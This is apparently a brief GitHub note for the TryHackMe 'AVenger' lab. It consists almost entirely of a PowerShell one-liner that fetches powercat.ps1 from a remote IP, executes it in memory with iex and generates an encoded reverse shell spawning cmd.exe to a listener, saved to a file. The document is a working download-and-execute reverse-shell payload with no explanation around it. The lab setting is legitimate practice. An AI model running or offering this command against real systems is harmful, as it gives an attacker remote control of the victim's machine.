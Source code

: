 # TryHackMe-AVenger

LHOST=<LocalHostIP>
LPORT=<Listener_port>

pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('http://10.6.116.252/powercat.ps1'); powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /home/gkhn/Documents/$shell

